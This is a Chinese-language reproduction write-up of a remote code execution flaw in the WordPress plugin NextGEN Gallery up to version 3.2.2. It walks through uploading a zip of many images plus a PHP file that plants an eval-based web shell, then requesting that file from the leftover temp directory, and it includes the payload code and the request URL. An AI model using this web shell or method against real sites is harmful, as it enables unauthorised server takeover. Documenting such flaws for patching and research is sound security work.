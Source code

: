```yaml
---
title: WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE
id: zhfly3241
---
```


# WordPress Plugin - NextGEN Gallery <= 3.2.2 RCE

## 一、漏洞简介

WordPress插件NextGEN Gallery <= 3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

## 二、漏洞影响

## 三、复现过程

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

```
<?php
    file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
?> 
```

### 第2步：上传zip压缩包

点击“Add Gallery / Images”然后上传zip压缩包。

![image](../img/fe18920760e779c49c953accdc0d14e0.png)

### 第3步：查看临时目录

点击“import folder”，再点击“uploads”即可看到解压的临时目录。

![image](../img/af864e2ed1d9c8e6ed67d780958f6dde.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

```
http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php 
```

![image](../img/046d02b52811fab72c9cab442e61a853.png)

![image](../img/053d19e3d971235f546635323d0c067a.png)
